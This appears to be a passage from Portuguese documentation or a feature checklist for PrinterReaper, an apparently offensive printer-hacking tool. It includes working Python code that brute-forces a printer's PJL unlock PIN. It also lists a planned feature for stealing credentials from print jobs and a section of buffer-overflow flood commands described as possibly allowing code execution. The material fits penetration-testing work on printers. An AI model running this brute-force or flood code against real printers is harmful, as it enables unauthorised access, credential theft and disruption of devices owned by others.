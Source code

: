 **Melhoria Necessária**:
```python
def do_unlock_bruteforce(self, arg):
    """Brute force printer unlock PIN"""
    start = conv().int(arg) or 1
    end = 65535
    
    output().warning(f"Brute forcing PIN from {start} to {end}...")
    output().info("This may take several minutes...")
    
    for pin in range(start, end + 1):
        if pin % 100 == 0:
            output().info(f"Progress: {pin}/{end} ({pin*100//end}%)")
        
        try:
            result = self.cmd(f"@PJL SET LOCKPIN={pin}")
            # Check if unlock was successful
            verify = self.cmd("@PJL INFO CONFIG")
            if "LOCKED=OFF" in verify or "LOCKPIN=0" in verify:
                output().info(f"SUCCESS! PIN found: {pin}")
                return pin
        except KeyboardInterrupt:
            output().warning("Brute force interrupted by user")
            return None
        except:
            pass
    
    output().errmsg("PIN not found in range")
    return None
```

### ❌ 7.4 Credential Sniffing (FALTANDO)
**Descrição**: Capturar credenciais de jobs de impressão  
**PrinterReaper**: Requer `capture` command  
**Efeito**: Roubar senhas de documentos impressos

---

## 8️⃣ CODE EXECUTION (2/4 = 50%)

### ✅ 8.1 Buffer Overflow Testing
**PJL**: `@PJL DISPLAY "AAAA..."`  
**PrinterReaper**: `flood <size>`  
**Efeito**: Testar buffer overflows  
**Risco**: Pode permitir code execution

**Teste**:
```
flood 1000
flood 10000
flood 100000
flood 1000000
```
